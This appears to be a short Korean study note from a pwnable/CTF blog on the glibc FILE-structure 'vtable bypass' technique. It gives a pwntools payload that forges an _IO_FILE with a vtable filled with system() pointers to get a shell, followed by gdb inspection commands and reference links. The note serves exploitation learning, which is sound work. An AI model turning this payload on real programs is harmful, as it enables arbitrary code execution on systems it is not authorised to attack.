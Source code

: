 ```yaml
---
layout: post
type: note
title: vtable bypass
alias: Pwnable
published : false
---
```


fake _IO_FILE Structure를 만들어 vtable의 조작된 함수 포인터가 실행되게 만들면 된다.

```python
stream = p64(0)*17
stream += p64(NULLPOINTER) # _IO_lock_t
stream += p64(0)*9
stream += p64(vtable)
stream += p64(system)*20

p.sendline(stream)
p.interactive()
```

dbg

```
print (((_IO_strfile *) fp)->_s._free_buffer)
_IO_str_jumps
p *(struct _IO_jump_t *)vtable
p/x (*(struct _IO_FILE *) fp)
p/x (*(struct _IO_FILE_plus *) fp)
```

### Reference

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/fake-vtable-exploit

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

